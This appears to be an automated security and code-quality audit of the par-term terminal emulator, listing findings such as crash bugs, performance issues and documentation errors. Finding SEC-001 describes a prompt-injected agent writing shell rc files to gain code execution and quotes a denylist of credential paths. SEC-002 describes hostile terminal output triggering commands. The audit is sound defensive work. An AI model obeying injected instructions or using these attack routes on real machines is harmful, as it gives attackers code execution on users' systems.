

# Project Audit Report

> **Project**: par-term — cross-platform GPU-accelerated terminal emulator
> **Date**: 2026-07-29
> **Commit**: audited at `88e5d472`; **corrected against `979ecd11`** — 4 commits landed and 7 files
> became dirty *during* the audit run (see Mid-Audit Repository Drift below)
> **Stack**: Rust (Edition 2024), 13 workspace sub-crates + root app, wgpu/WGSL, egui, tokio, winit
> **Scale**: 894 indexed files — 648 Rust, 145 markdown, 73 GLSL, 7 WGSL; 3,273 functions + 2,300 methods
> **Audited by**: Claude Code Audit System (Opus 5 subagents, par-mem knowledge graph)

---

## Independent Re-Verification — 2026-07-29, at `caf96ed3`

Every open finding was re-checked against the working tree by a second session
(`5de7d58b`, Opus 5) after nine commits landed on top of the audited revision.
**All 42 open items still reproduce.** Nothing was invalidated by the intervening
work, and no finding proved inaccurate in substance.

Method: each item's most falsifiable claim was re-run against current source — the
exact slice or index expression, the function signature, the doc string, or the
absence of the guard it says is missing. Line numbers were deliberately *not*
trusted, because nine commits shifted them; claims were matched by content.

**Closed since this report was written**

| id | status |
|----|--------|
| DOC-004 | Done in `d1bf97c3` + `f988ab70` — all six sites plus the rustdoc |

**Figure corrections** (substance unaffected; counting method differs)

| id | report says | re-measured | note |
|----|-------------|-------------|------|
| ARC-002 | 215 fields | 209 | counted `pub <name>:` at one indent level |
| ARC-003 | 238 fields | 237 | same method |
| ARC-005 | 94 `impl WindowState` blocks | 89 | docstring still claims 84, so the finding holds either way |
| DOC-002 | 51 broken links / 14 files | 55 / 18 | the extra files include `AUDIT.md` and `AUDIT-REMEDIATION-PLAN.md` themselves |
| DOC-006 | 11 sites + Makefile | 13 occurrences | |
| ENH-002 | no non-ASCII corpus | partial | `tests/grapheme_rendering_tests.rs` exists; the gap is breadth, not absence |

Exact as written, no adjustment needed: QA-002, QA-003, QA-004, QA-005, QA-006,
QA-007, QA-008, QA-010, QA-011, QA-012, QA-013 (14 sites, exact), QA-014,
QA-015 (3 sites, exact), QA-016, SEC-001, SEC-002, SEC-003, SEC-004, SEC-005,
SEC-006, ARC-001 (869 lines, exact), ARC-004, DOC-001, DOC-003, DOC-005,
DOC-007, DOC-008, DOC-009, DOC-010, DOC-011, ENH-001, ENH-003, ENH-004,
ENH-005, ENH-008, ENH-009.

### Kanban coverage — closed 2026-07-29

The board originally carried cards for the **Critical and High tiers only** (37 audit cards).
`QA-001` and `QA-009` correctly have none: both are ✅ RESOLVED above. That left the **74 Medium and
Low findings tracked nowhere but this file and `AUDIT-REMEDIATION-PLAN.md` — neither of which is in
git.** Deleting either would have lost them.

Now filed by session `5de7d58b`:

| card | covers |
|------|--------|
| `[SEC-025]` *(own card, high)* | release workflow ignores test failures |
| `[SEC-011]` *(own card, high)* | unpinned `@master` in the publish job |
| 8 batch cards, one per tier × category | the remaining 72 |

Batch rather than 72 individual cards, to keep the board scannable; split one out when it is picked up.
The batch cards are transcribed **as written and not independently verified** — only the 42 open
Critical/High cards were re-checked.

Two Medium findings were re-verified because they bear on commits made this session, and **both are worse
than recorded**:

- **SEC-025** — eight sites, not five. Six are `Run tests` steps in `release.yml`
  (`:97, :147, :192, :236, :319, :429`); the other two are Discord notifications and are fine.
  This **materially weakens `eb97890b`**, which gated the crates.io publish behind all five binary builds:
  with `continue-on-error` on every test step, a build job reports success with failing tests, so the gate
  stops a *build* failure but not a *test* failure. The claim that `eb97890b` closed the stranded-publish
  hole was overstated by exactly that much.
- **SEC-011** — `.github/workflows/publish-crates.yml:61` is the last surviving
  `dtolnay/rust-toolchain@master`. `d2e49cbd` pinned the six copies in `release.yml` and the `ci*.yml`
  workflows but never opened this file — the one job holding the crates.io token.

**The nine intervening commits fixed none of these findings.** `88e5d472..caf96ed3`
addressed an unrelated intermittent Linux SIGSEGV (a `winit::event::KeyEvent`
fabricated from uninitialized memory in a test helper), removed the matching
`mem::zeroed` fabrication in `tests/input_tests.rs`, closed the release-workflow
hole that let a crates.io publish outlive a failed build, removed the `setenv`
hazard from the config tests, unified the shader debug dump paths (SEC-006's path
half — see that entry), split the CI cache restore from save, and completed
DOC-004.

---

## Executive Summary

par-term is a mature, well-engineered project with genuinely strong conventions — a documented and
*followed* locking discipline, zero production `unsafe`, an acyclic 13-crate dependency graph enforced by
CI, a 64-version CHANGELOG, and a fully green verification gate (1,965 tests, clippy clean at
`-D warnings`). The audit's central finding is that **the green gate cannot see the most serious
problems**. Ten Critical defects went undetected by it: a single class of column-index-as-byte-offset
confusion crashes the app when a user searches in copy mode on a line containing one accented character, and
two remote-input paths reach command execution while bypassing the very defenses the project applies
correctly elsewhere. Every test input in the suite is ASCII, which is precisely why the crash class survived
1,965 green tests.

The most critical single finding is the ACP `fs/write_text_file` RPC arm, which receives no permission
gate at all — the hardened path-containment check exists and is simply never reached — combined with a
denylist that omits shell rc files and par-term's own hot-reloaded config. Remediating the Critical and
High tiers is roughly 3–5 focused days; the ten Criticals are mostly small, surgical fixes (five are
bounds/boundary checks), while the High tier carries three genuine refactors. Three god objects
(`SettingsUI` 215 fields, `Config` 238 fields, `WindowState` 39 fields/94 impl blocks) are each
mid-decomposition with the pattern established but unfinished; these are deliberately **deferred out of
this remediation cycle** — see the Remediation Plan.

Strongest genuine asset: the project's security controls where they exist are exemplary rather than
box-ticking. The trigger `RunCommand` stack (allowlist + denylist + rate limit + concurrency cap + audit
log + confirmation-by-default requiring a second explicit opt-in to disable) is a model the two Critical
paths should simply adopt.

### Issue Count by Severity

| Severity | Architecture | Security | Code Quality | Documentation | Total |
|----------|:-----------:|:--------:|:------------:|:-------------:|:-----:|
| 🔴 Critical | 0 | 2 | 7 | 1 | **10** |
| 🟠 High     | 5 | 4 | 7 | 9 | **25** |
| 🟡 Medium   | 5 | 9 | 17 | 13 | **44** |
| 🔵 Low      | 3 | 12 | 8 | 8 | **31** |
| **Total**   | **13** | **27** | **39** | **31** | **110** |

Counts exclude three findings **resolved while this audit was in progress**, each verified by the orchestrator
against current code:

| ID | Sev | Resolved by | Verified |
|---|---|---|---|
| QA-001 | Critical | `eff2b1e6` | No `MaybeUninit`/`assume_init` remains; Miri-proven in the commit |
| QA-009 | High | `cb9abf12` | `tests/input_tests.rs` builds a real `KeyInput` |
| DOC-004 | High | `d1bf97c3`, `f988ab70` | `ARCHITECTURE.md:230` and `src/menu/linux.rs` now accurate — **picked up from the board card this audit filed** |

Their entries are retained below with a resolution stamp rather than deleted, so the record of what the audit
found independently survives. Originally reported: **11 Critical / 27 High / 113 total**.

> **This repository moved continuously throughout the audit.** Six commits landed between `88e5d472` and
> `caf96ed3`. The three findings above were fixed; **SEC-006** was partially fixed (path half shipped, security
> half still open — see its entry and the follow-up board card). Treat any line number as needing a re-read
> before editing, which `/fix-audit`'s own instructions require regardless.

### Cross-Domain Corrections Made During Synthesis

Four agent claims were revised after the orchestrator verified them directly. Recorded because
`/fix-audit` would otherwise inherit the errors:

1. **The architecture agent's "single rendering path invariant holds" positive highlight was wrong** in its
   conclusion. `build_instance_buffers` does have exactly one call chain, but that chain terminates at
   `take_screenshot` (`par-term-render/src/renderer/rendering.rs:645`), **not** the live custom-shader path.
   Verified: `render_cells_to_target` (`:484`) has one caller (`:645`). The live single-path invariant does
   hold; the second builder serves screenshots. This is filed as **QA-011** (High), and CLAUDE.md's gotcha
   text is wrong.
2. **The code-quality agent's original "exceptional panic discipline" highlight was retracted by the agent
   itself** after a late-returning sub-agent found the Critical panic class. Counts moved from 3 Critical
   to 8. The retraction is honored here.
3. **CLAUDE.md's logging rule is false.** `src/debug.rs:253/308` defines and implements
   `impl log::Log for LogCrateBridge`, installed from `src/main.rs:45`, defaulting to `Info` when
   `RUST_LOG` is unset. `log::info!()` *does* reach the debug log; the ~1,000 `log::` call sites are
   correct. Filed as **QA-036**. Sub-crates must use `log::` since `crate::debug_info!` resolves to their
   own root.
4. **The shader `/tmp` documentation was accurate at `88e5d472` and is now mid-change.** The documentation
   agent correctly established that `docs/features/CUSTOM_SHADERS.md:1099-1100` described the then-real
   behavior. A concurrent session is now rewriting exactly that surface in the working tree, and
   `CLAUDE.md:218` has already been replaced with "Never hardcode `/tmp`; resolve through
   `par_term_render::shader_debug`". **SEC-006 is therefore a verify-don't-implement item** — see its entry.

### Mid-Audit Repository Drift

The audit ran for roughly 55 minutes against `88e5d472`. A concurrent session committed four times and left
seven files dirty during that window. All findings were re-checked against the intersection of the delta:

**Four commits landed** (`88e5d472..979ecd11`, 13 files):

| Commit | Effect on this audit |
|---|---|
| `eff2b1e6` fix(tests): stop fabricating winit KeyEvent from uninitialized memory | **Resolves QA-001.** Verified: zero `MaybeUninit`/`assume_init`/`make_key_event` remain in `src/app/input_events/snippet_actions/tests.rs` (now 90 lines). |
| `cb9abf12` refactor(input): encode from a constructible KeyInput, not a forged KeyEvent | **Resolves QA-009.** `tests/input_tests.rs` now builds a real `KeyInput`; its comment even cites `eff2b1e6`. |
| `979ecd11` refactor(config): resolve substitution through a lookup, not the environment | **Partially resolves SEC-007** — the `tests/config/` half. One `set_var` residual remains there, and `par-term-mcp/src/lib.rs` still has 10. |
| `eb97890b` fix(release): publish to crates.io only after every binary builds | Closes the board's release-ordering item. **Does not** affect SEC-025, which is still present at 5 sites. |

**Seven files dirty** — a concurrent session implementing SEC-006 / the shader-path board card, including a
new `par-term-render/src/shader_debug.rs`. Not edited by this audit; inspected read-only. See SEC-006.

**Unaffected findings**: every finding whose cited file is outside those 13 + 7 files, which is the large
majority — all of Documentation, all of Architecture except ARC-008 (re-verified, still valid), all of
Security except SEC-006/SEC-007, and QA-002 through QA-008 (re-verified, all still present). CLAUDE.md's
cited line numbers for DOC-006 (`:49`), DOC-007 (`:238`), DOC-011 (`:12`), and DOC-018 (`:121`, `:208`) were
re-checked and are **unchanged**; only `:218` moved.

### Relationship to Known Work in Flight

Six board items were passed to the auditors as known work. Outcomes:

| Board item | Audit outcome |
|---|---|
| Report the real shader debug dump paths | **Escalated, and now in flight.** The same code contains a real security defect. A concurrent session is fixing the *path* half in the working tree; the *hardening* half remains open. Filed **SEC-006** (High) as verify-don't-implement. |
| Root-cause intermittent Linux SIGSEGV | **Resolved during this audit** — the card is now `done`. The audit independently found the same defect (QA-001) by reading the code; the fix commit `eff2b1e6` proved it with Miri, which is stronger evidence than the audit produced. **SEC-007** (`env::set_var`/`environ` race) remains a *separate* live defect in `par-term-mcp`, not a duplicate of it. |
| Attach the menu bar on Linux | Code side not re-reported. **DOC-004** (High) files the doc side: four docs advertise menu-bar procedures on Linux with no caveat, plus false rustdoc at `src/menu/linux.rs:11,32` that contradicts `src/menu/mod.rs:40-41`. |
| Stop a failed release build stranding a crates.io publish | Not re-reported. Adjacent new finding: **SEC-025**, `release.yml:95-97` sets `continue-on-error: true` on `cargo test --workspace`. |
| Populate CI cache on failed runs | Not re-reported; unchanged. |
| Release v0.37.1 (in progress) | Explains version churn. **DOC-011**: `CLAUDE.md:12` still says `0.36.0`, violating the project's own release checklist at `CONTRIBUTING.md:474`. |

---

## 🔴 Critical Issues (Resolve Immediately)

### [SEC-001] ACP `fs/write_text_file` RPC has no permission gate
- **Area**: Security — CWE-862 Missing Authorization
- **Location**: `par-term-acp/src/message_handler.rs:94-102`, `par-term-acp/src/fs_tools.rs:81-86`, `par-term-acp/src/fs_ops.rs:44-71`
- **Description**: The dispatch asymmetry is verbatim in the source. `message_handler.rs:74-83` passes
  `&ui_tx, &auto_approve, &safe_paths` to `handle_permission_request`; `:94-102` passes `fs/write_text_file`
  only `method, request_id, params, client`. `handle_fs_write`'s signature (`fs_tools.rs:81-86`) accepts no
  `safe_paths`, no `auto_approve`, no `ui_tx`, so the hardened `is_safe_write_path` containment check at
  `permissions.rs:142-184` is **never reached** on this path. The only barrier is `is_sensitive_path`
  (`fs_ops.rs:44-71`), an eight-entry **denylist** (`~/.ssh`, `~/.gnupg`, `~/.aws`, `~/.docker`, `~/.netrc`,
  `~/.config/gh`, `~/.config/gcloud`, `/etc`) that omits `~/.zshrc`, `~/.bashrc`, `~/.profile`,
  `~/Library/LaunchAgents/`, and `~/.config/par-term/`.
- **Impact**: An ACP agent is untrusted input — its output is steered by whatever it reads. A prompt-injected
  agent writes `~/.zshrc` with no prompt and no UI notice, giving code execution on next shell launch. Or it
  writes `~/.config/par-term/config.yaml`, which `src/app/window_state/config_watchers.rs:18-19` hot-reloads
  *by explicit design* "so that when an ACP agent modifies the config, par-term can auto-reload" — chaining
  directly into SEC-002. Also bypasses the SEC-005-era key allowlist, which guards only the `config_update`
  IPC tool, never raw file writes.
- **Remedy**: Route `fs/write_text_file` and `fs/read_text_file` through the same `safe_paths`/`auto_approve`
  gate the permission arm uses; convert `is_sensitive_path` to an allowlist reusing `is_safe_write_path`.
  Minimum viable: add `~/.config/par-term/`, shell rc files, and `~/Library/LaunchAgents/` to the denylist.

### [SEC-002] Remote OSC 7 hostname triggers unconfirmed command execution, and the off-switch is dead code
- **Area**: Security — CWE-807 Reliance on Untrusted Input
- **Location**: `src/app/tab_ops/profile_auto_switch.rs:132-148` (duplicate sink at `:304-320`)
- **Description**: `full_cmd` is assembled from a profile's `command` + `command_args`, given a trailing
  `\n`, and written straight to the PTY at `:145` (`term.write(full_cmd.as_bytes())`). The selecting key is a
  hostname from OSC 7 (`src/tab/profile_tracking.rs:218-219`), checked every event-loop iteration
  (`src/app/handler/window_state_impl/about_to_wait.rs:90`). A `*` pattern always matches
  (`par-term-config/src/profile_types/matchers.rs:269-271`). **Verified**: `ssh_auto_profile_switch` has
  exactly three references repo-wide — the field declaration (`ssh_config.rs:18`), its default (`:30`), and
  the settings checkbox (`par-term-settings-ui/src/ssh_tab.rs:24`). **Zero read sites**, so the user-facing
  toggle does nothing.
- **Impact**: Anything that writes to the PTY — `cat` of a hostile file, `curl` output, a compromised SSH
  host — emits OSC 7 and chooses which profile activates, executing its command with no prompt. The trigger
  subsystem gates the *same* capability behind `prompt_before_run: true` + denylist + rate limit + audit log
  (`src/app/triggers/mod.rs:378-530`); that control is simply absent here. Requires the user to have a
  profile with a matching or `*` hostname pattern.
- **Remedy**: Gate the sink behind the same confirmation used for `RunCommand` triggers, and wire
  `ssh_auto_profile_switch` to short-circuit `check_auto_hostname_switch`.

### [QA-001] ✅ RESOLVED — UB: `assume_init()` on a `KeyEvent` whose private 7th field is never written
- **Status**: **Fixed during this audit run by commit `eff2b1e6`** (2026-07-29 16:37). Verified: zero
  `MaybeUninit`, `assume_init`, or `make_key_event` remain in the cited file, which is now 90 lines.
  `extract_prefix_action_char` was narrowed exactly as the remedy below proposed. **No action for
  `/fix-audit`.** Retained for the record: the audit found this independently by reading winit's struct
  definition, and the fix commit confirmed it with a Miri run reporting "constructing invalid value … at
  `.platform_specific.key_without_modifiers.<enum-tag>`, encountered uninitialized memory" — a stronger proof
  than the audit produced, and the resolution of the tracked Linux SIGSEGV.
- **Area**: Code Quality — memory safety
- **Location**: `src/app/input_events/snippet_actions/tests.rs:27-40` *(at `88e5d472`; no longer present)*
- **Description**: `:28` creates `MaybeUninit<KeyEvent>::uninit()`, `:30-38` write exactly six fields, `:39`
  calls `assume_init()`. winit 0.30.13's `KeyEvent` (`event.rs:523`) has **seven** fields — the seventh,
  `event.rs:655` `pub(crate) platform_specific: platform_impl::KeyEventExtra`, cannot be named from outside
  winit. On macOS that is `{ text_with_all_modifiers: Option<SmolStr>, key_without_modifiers: Key }` —
  heap-owning and enum-bearing. The SAFETY comment at `:18-23` is factually wrong: it claims "All six public
  fields are written" because it counted only public fields.
- **Impact**: UB at `assume_init()`; the crash lands later in drop glue, reading a garbage `Option<SmolStr>`
  discriminant and a garbage `Key` discriminant, then freeing a wild pointer. `mod tests` is `#[cfg(test)]`
  and OS-independent, so it compiles into the **root-crate lib test binary** and runs on every `cargo test`.
  Strong candidate root cause for the tracked intermittent Linux SIGSEGV. Mechanism verified; not reproduced
  (intermittent UB does not reproduce on demand — `cargo +nightly miri test` on the two callers at `:89`/`:100`
  would confirm).
- **Remedy**: `extract_prefix_action_char` reads only `text`, `logical_key`, `physical_key`. Narrow its
  signature to those three values, update the single production caller (`snippet_actions/mod.rs:87`, which
  already holds a real `&KeyEvent`), and delete `make_key_event` and its `unsafe` block. Fixes QA-009 too.

### [QA-002] Full terminal-grid deep clone on essentially every frame, inside the cache built to prevent it
- **Area**: Code Quality — performance
- **Location**: `src/app/render_pipeline/gpu_submit.rs:358`
- **Description**: `Arc::make_mut(&mut pane.cells)` runs whenever `has_search_matches || url_overlay.is_some()`.
  `pane.cells` is always populated by `Arc::clone` from the cache (`src/app/render_pipeline/pane_render.rs:260`),
  so the cache retains its own reference, refcount is always ≥2, and `make_mut` therefore **always**
  deep-clones. `Cell.grapheme` is a `String` (`par-term-config/src/cell.rs:9`), so each clone heap-allocates
  per cell.
- **Impact**: `url_overlay` is `Some` whenever `detected_urls` is non-empty and persists across cache-hit
  frames until content scrolls away — so any focused pane showing a URL or file path (routine `ls`,
  `git status`, compiler errors, most prompts) clones the whole grid every frame. A 200×50 grid is up to
  10,000 `String` allocations per frame at 60fps, defeating the documented cache-hit fast path.
- **Remedy**: The mutation is transient and never written back. Keep a persistent scratch `Vec<Cell>` on
  window/pane state and `clone_from` into it before applying overlays — `String::clone_from` reuses the
  destination allocation, dropping steady-state allocation to near zero. Pair with QA-024.

### [QA-003] Synchronous network download + zip extraction on the winit main thread
- **Area**: Code Quality — recurrence of an already-fixed class
- **Location**: `src/app/window_state/action_handlers/integrations.rs:125`
- **Description**: `install_shaders_with_manifest(...)` is called synchronously immediately after
  `set_installing("Installing shaders...")` and `request_redraw()` at `:120-123`. It performs a `ureq` GET to
  the GitHub releases API, a zip download, an optional checksum GET, then extraction and manifest-diffed file
  writes (`src/shader_installer.rs:406-493`). The chain is main-thread throughout: `submit_gpu_frame` →
  `update_post_render_state` → `handle_integrations_response` (`integrations.rs:13`, invoked at
  `src/app/render_pipeline/post_render.rs:324`).
- **Impact**: Full window freeze for an unbounded network fetch, on first launch and after every upgrade. The
  "Installing shaders…" status is set on the frame *before* the blocking call, so the progress UI it exists to
  show never paints. Same class as the fixed 30s `ureq` GET — that original fix has **not** regressed
  (`src/app/window_manager/update_checker.rs:110,238` still use `spawn_blocking`); this sibling was missed.
- **Remedy**: Use the correct pattern 40 lines away in the calling file — `post_render.rs:288-296` does
  `std::thread::spawn` + `mpsc` with the comment "Spawn installation in background thread so UI can show
  progress."

### [QA-004] Copy-mode search slices a `String` with a column index
- **Area**: Code Quality — reachable panic *(orchestrator-verified)*
- **Location**: `src/app/copy_mode/search.rs:113`, `:149`
- **Description**: `:113` `text_lower[search_start..].find(&query_lower)` and `:149`
  `text_lower[..search_end].rfind(&query_lower)`. Derivation confirmed by direct read: `search_start =
  start_col + 1` (`:108`), `search_end = start_col` (`:146`), and `start_col` is `self.copy_mode.cursor_col`
  (`:61`) — a terminal **column**, used as a raw UTF-8 **byte** offset. Additionally `text.to_lowercase()`
  (`:112`) can change byte length relative to the original.
- **Impact**: Enter copy mode on any line containing one accented or non-Latin character and press `/` →
  panic, "byte index N is not a char boundary." No wide character needed; the easiest crash in this audit to
  trigger. With no `catch_unwind` anywhere in the workspace, this is an unrecoverable whole-app crash that
  loses all terminal state.
- **Remedy**: Map the column to a byte offset via `char_indices()` before slicing. Part of the QA-004–QA-008
  coordinated pass.

### [QA-005] `move_word_backward` indexes `chars[col]` with no upper bound
- **Area**: Code Quality — reachable panic *(orchestrator-verified)*
- **Location**: `src/copy_mode/motion.rs:46`, `:50`; whitespace sibling at `:114`, `:118`
- **Description**: `:37` builds `chars: Vec<char>`, `:38` seeds `col = self.cursor_col`, the only guard is
  `:41` `if col == 0 { break; }`, then `:46` does `while col > 0 && !is_word_char(chars[col], word_chars)`.
  The forward function at `:65` correctly guards `if col >= chars.len().saturating_sub(1) { break; }` — the
  asymmetry is the bug. `Grid::row_text` filters wide-char spacer cells, so a row with CJK/emoji has
  `chars.len() < cols`, while `move_to_line_end` sets `cursor_col = cols - 1`.
- **Impact**: Press `$` then `b` on any line containing a wide character → index-out-of-bounds panic,
  whole-app crash.
- **Remedy**: Add `col < chars.len()` to the four while-guards.

### [QA-006] Base64 decode indexes a 256-entry table with a raw `char`
- **Area**: Code Quality — reachable panic
- **Location**: `src/paste_transform/encoding.rs:63`
- **Description**: `let value = decode_table[c as usize];` where `decode_table` is `[255u8; 256]` (`:46`) and
  `c` comes from `input.chars()` (`:57`). Any codepoint ≥ U+0100 (CJK, emoji, Cyrillic, curly quotes) is out
  of bounds — and the invalid-character `Err` at `:64` is checked *after* the index, so the guard arrives too
  late.
- **Impact**: Crash on paste. Reachable interactively — the Paste Special live preview re-runs `transform()`
  on every UI update, so merely opening the dialog with such content in the clipboard crashes.
- **Remedy**: Bounds-check `c as u32 <= 255` before indexing, returning the existing `Err` path.

### [QA-007] Hex decode byte-slices on `step_by(2)`
- **Area**: Code Quality — reachable panic
- **Location**: `src/paste_transform/encoding.rs:164-165`
- **Description**: `hex_chars` is filtered only by `!c.is_whitespace()` (`:155`), the even-length gate uses
  byte `.len()` (`:157`), then `&hex_chars[i..i+2]` walks raw byte offsets.
- **Impact**: Any even-byte-length mix of ASCII and a 2-byte character (e.g. `"aée"`) lands a slice boundary
  mid-character and panics. Same Paste Special preview path as QA-006.
- **Remedy**: Iterate `char_indices()` over char-validated hex digit pairs instead of raw byte `step_by(2)`.

### [QA-008] Shader hex-color parsing byte-slices, defeating the serde guard built to catch it
- **Area**: Code Quality — reachable panic *(orchestrator-verified)*
- **Location**: `par-term-config/src/types/shader.rs:132`, `:137`
- **Description**: `:132` gates on byte `hex.len()` with no ASCII check; `:137` then slices fixed byte ranges
  `0..2`, `2..4`, `4..6`. Confirmed by direct read: `"#1é234"` is 6 bytes, passes the gate, and `&hex[0..2]`
  splits `é` mid-character. Chain: `from_hex` ← `from_yaml_value` (`:262`) ← `deserialize_uniforms`
  (`:314-339`, wired via `#[serde(deserialize_with)]` at `:378`), which wraps the call in `Err => log::warn!`
  *specifically to skip bad entries gracefully*.
- **Impact**: A panic is not an `Err`, so it bypasses that safety net and crashes `Config::load()` or shader
  hot-reload. Reachable from a hand-edited `config.yaml` or a metadata block in any **shared** `.glsl` file —
  so a downloaded shader can crash startup.
- **Remedy**: `if !hex.is_ascii() || (hex.len() != 6 && hex.len() != 8) { return Err(..) }`.

### [DOC-001] `CONFIG_REFERENCE.md` documents four enum value-sets that prevent par-term from starting
- **Area**: Documentation — accuracy
- **Location**: `docs/CONFIG_REFERENCE.md:266`, `:268`, `:537`, `:186`
- **Description**: Four documented values are not the real serde names, so copying them causes a hard config
  parse failure rather than a fallback:
  - `:268` `normalization_form` documents `nfc, nfd, nfkc, nfkd, none`, but
    `par-term-config/src/types/unicode.rs:80-104` has **no** `#[serde(rename_all)]` and only `None` carries
    `#[serde(rename = "none")]` — real values are `NFC, NFD, NFKC, NFKD, none`. Four of five are wrong,
    including the documented default.
  - `:266` `unicode_version` documents `unicode_9 … unicode_16`, but `unicode.rs:17-18` uses
    `rename_all = "snake_case"` on variants `Unicode9…Unicode16` → real value is `unicode9`. Also hides the
    real `unicode15_1`.
  - `:537` `progress_bar_style` documents `bar_with_text`, but `types/integration.rs:115-121` uses
    `rename_all = "lowercase"` on `BarWithText` → real value is `barwithtext`.
  - `:186` `download_save_location` documents `custom` with a path, but `types/font.rs:56` is
    `Custom(String)` — a newtype variant needing YAML tag syntax (`!custom /path`).
- **Impact**: Every user configuring Unicode normalization, Unicode version, progress-bar style, or download
  location from the authoritative config reference. Unlike `docs/API.md`, this document carries no
  "may be stale" disclaimer.
- **Remedy**: Correct the four value lists to the real serde names. Prevention: a test that round-trips every
  documented value through `serde_yaml_ng` would have caught all four — see ENH-001.

---

## 🟠 High Priority Issues

### Architecture

### [ARC-001] 869 lines of divergent, never-compiled dead code in `src/ssh/`
- **Area**: Architecture *(also found independently by Code Quality and Security — 3-domain agreement)*
- **Location**: `src/ssh/config_parser.rs` (297), `history.rs` (236), `known_hosts.rs` (144), `types.rs` (106), `discovery.rs` (86)
- **Description**: **Orchestrator-verified**: `src/ssh/mod.rs` is 11 lines containing only
  `pub use par_term_ssh::{...}` re-exports with **zero `mod` declarations**, and no `mod` declaration exists
  elsewhere — rustc never compiles these five files. They are leftovers from `d0d4db00 refactor(ssh): extract
  src/ssh/ into par-term-ssh workspace subcrate`, which created the crate but never deleted the originals.
  They have since **diverged**: `f69d1e9d fix(audit): address all Critical and High audit findings` fixed bugs
  only in the crate copy. `src/ssh/config_parser.rs` still swallows the config-read error
  (`Err(_) => return Vec::new()`) where the crate logs it; `src/ssh/history.rs` still slurps whole files with
  `read_to_string` where the crate uses `BufReader` line streaming. `src/ssh/discovery.rs:57` even references
  `crate::ssh::types::SshHostSource`, reinforcing the illusion the tree is live.
- **Impact**: A silent no-op class of bug. A fix applied to the orphan copy compiles clean, passes
  `make checkall`, and changes nothing at runtime. Every grep, par-mem search, and future agent looking for
  SSH config parsing finds two answers, one stale and buggy. This is *file-level* dead code, structurally
  invisible to symbol-level analysis — which is why it survived multiple release cycles.
- **Remedy**: Delete all five files. `src/ssh/mod.rs` and its re-exports are the only live surface;
  `src/ssh_connect_ui.rs:7-8` consumes them and is unaffected. Do this **first** in the cycle: it removes a
  decoy that would otherwise silently absorb other agents' SSH fixes.

### [ARC-002] `SettingsUI` is the repo's largest God object (215 fields) and is untracked
- **Area**: Architecture — **deferred from this cycle**
- **Location**: `par-term-settings-ui/src/settings_ui/mod.rs:22`
- **Description**: 215 fields in a single struct body. par-mem ranks it highest in the repo by both PageRank
  (0.0098) and fan-in (in-degree 245), and flags it as an articulation point — 2.7× more central than
  `WindowState` (in-degree 91). Behavior is spread across 11 `impl SettingsUI` blocks in 11 files, and ~25
  `*_tab/` directories mutate its fields directly. The prior cycle's ARC-002 note covers only `WindowState`;
  this larger object has no tracking entry.
- **Impact**: Every settings tab is coupled to every other through one struct, so no tab's state can be
  reasoned about or tested in isolation. `par-term-settings-ui` is published to crates.io
  (`publish-crates.yml:170`), so all 215 `pub` fields are semver commitments — any rename is a breaking
  release of a 0.15.x crate.
- **Remedy**: Group fields into per-tab state structs mirroring the existing `*_tab/` layout
  (`AppearanceTabState`, `InputTabState`, …), ~25 named members instead of 215 flat fields. Make fields
  `pub(crate)` where the root crate does not read them. **Deferred**: this rewrites the field access path
  (`settings.foo` → `settings.appearance.foo`) in ~25 tab modules and would conflict with nearly every line
  QA-014 touches. Tracked as ENH-006.

### [ARC-003] `Config` carries 238 flat public fields while its own sub-config decomposition sits half-finished
- **Area**: Architecture — **deferred from this cycle**
- **Location**: `par-term-config/src/config/config_struct/mod.rs:145` (struct spans 145–1527)
- **Description**: 238 `pub` fields on one struct, with the highest betweenness centrality in the graph
  (0.052) and 166 inbound type references. The decomposition pattern already exists — the same directory holds
  14 extracted sub-config structs (`cursor_config.rs`, `font_config.rs`, `mouse_config.rs`,
  `notification_config.rs`, `status_bar_config.rs`, `window_config.rs`, and 8 more) — but the root struct was
  never drained into them.
- **Impact**: `par-term-config` publishes at 0.12.2, so all 238 fields are public semver surface. CLAUDE.md's
  "Adding a New Configuration Option" workflow directs every new setting to this one file, making it the
  second-largest in the repo and a guaranteed merge-conflict point. Its highest-betweenness position means it
  is the single symbol whose change fragments the most of the graph.
- **Remedy**: Continue the established pattern — move each thematic field cluster into the matching
  `*_config.rs` struct that already exists, keeping `#[serde(flatten)]` so on-disk YAML stays compatible.
  Stage per sub-config so each step verifies independently. **Deferred**: moves field declarations across
  files, invalidating every line-anchored edit, and transitively touches every `config.<field>` read site
  across 14 crates. **QA-008 must land first regardless.** Tracked as ENH-007.

### [ARC-004] Split-pane rendering issues one GPU submit and one full instance-buffer upload per pane per frame
- **Area**: Architecture — performance
- **Location**: `par-term-render/src/cell_renderer/pane_render/mod.rs:260` (submit), `:791`/`:798` (uploads); driven by `par-term-render/src/renderer/rendering.rs:186`, `:317`
- **Description**: `render_split_panes` (`rendering.rs:61`) iterates panes and calls `render_pane_to_view`
  (`pane_render/mod.rs:104`) once per pane. Each call creates its own command encoder (`:172`), rebuilds
  instance data (`:126`), uploads it, opens its own render pass (`:213`), and issues its own `queue.submit`
  (`:260`). N panes therefore cost N encoders, N submits, N uploads per frame. The structural cause is that
  `bg_instance_buffer` and `text_instance_buffer` are **single shared buffers** on `CellRenderer`
  (`cell_renderer/mod.rs:106-107`) and every pane writes them at **offset 0**.
- **Impact**: Frame cost scales linearly in pane count with no amortization, each submit a driver round-trip.
  This is the mechanism behind the known ~5 FPS regression at 6+ panes with a custom shader. It also caps how
  far split-pane density can grow.
- **Remedy**: Suballocate the shared instance buffers — give each pane its own byte range (`write_buffer` at
  `pane_offset`, `draw` with a matching instance base) so all panes encode into one encoder and flush with a
  single `queue.submit`. **This is a buffer-addressing change, not a submit-batching change** — batching the
  submits alone renders garbage, because pane N+1 clobbers pane N's vertex data before the GPU consumes it.

### [ARC-005] The `WindowState` decomposition has regressed and its own tracking docstring is factually wrong
- **Area**: Architecture
- **Location**: `src/app/window_state/mod.rs:11-37` (docstring), `:136` (struct)
- **Description**: The docstring states "`WindowState` currently has 30+ fields and 84 separate
  `impl WindowState` blocks." Measured now: **39 fields** (`:136`–`:256`) and **94 `impl WindowState` blocks
  across 91 files** — the block count grew by 10 since the note was written. None of the three suggested next
  extractions (`TmuxSubsystem`, `SelectionSubsystem`, `WindowInfrastructure`) has been started. The docstring
  also mislabels its own IDs — line 7 credits "ARC-001", lines 11+ say ARC-002, line 45 tells ARC-003 readers
  to see "ARC-001 in AUDIT.md" — and line 37 points to `AUDIT.md`, which did not exist in the repo before this
  run.
- **Impact**: The one artifact meant to prevent this object from growing is stale in the direction that hides
  the growth, and its tracking pointer dangles. Each new `impl WindowState` block in a new file is
  individually reasonable and collectively how the God object became untrackable.
